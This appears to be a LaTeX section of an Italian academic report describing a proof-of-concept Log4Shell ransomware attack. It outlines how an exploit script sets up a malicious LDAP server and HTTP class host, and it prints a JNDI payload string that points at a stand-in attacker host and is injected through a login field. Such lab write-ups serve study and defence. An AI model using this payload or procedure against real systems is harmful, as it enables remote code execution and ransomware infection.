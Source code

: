 \documentclass[a4paper, 12pt]{article}
\begin{document}
\subsubsection{Exploitation}
La fase principale dell'attacco viene attuata sfruttando la vulnerabilità di Log4j per ottenere una RCE. 
Lo script \verb!exploit.py! presente nel progetto ha lo scopo di:
\begin{itemize}
    \item Instanziare un server LDAP malevolo in ascolto sulla porta 1389.
    \item Compilare la classe Java da eseguire sulla macchina vittima ed hostare il file \verb!.class! su un server HTTP in ascolto sulla porta 8000.
    \item Generare il payload malevolo per sfruttare la vulnerabilità, formattato come una stringa del tipo: 
    \begin{center}
        \verb!${jndi:ldap://attacker-ldap.com:1389/a}!
    \end{center}
\end{itemize}

\begin{figure}
\centering
\includegraphics[width=0.8\textwidth]{img/exploit.png}
\caption{Script di exploit}
\label{fig:exploit}
\end{figure}

L'attaccante invia al server web il payload generato inserendolo nel campo \verb!username! del form di login.
Apache Log4j, al momento di loggare il nome utente, effettua una richiesta JNDI al server LDAP creato, il quale restituisce il path dell'oggetto Java con il codice malevolo.
A questo punto, l'applicazione vulnerabile carica il file remoto ed esegue il codice del ransomware.

\subsubsection{Installation}
Questa fase è facoltativa ai fini dello sviluppo dell'attacco ransomware, si è comunque deciso di inserirla nel PoC con il fine di mostrare la numerosità di applicazioni a cui si presta Log4Shell.
\end{document}
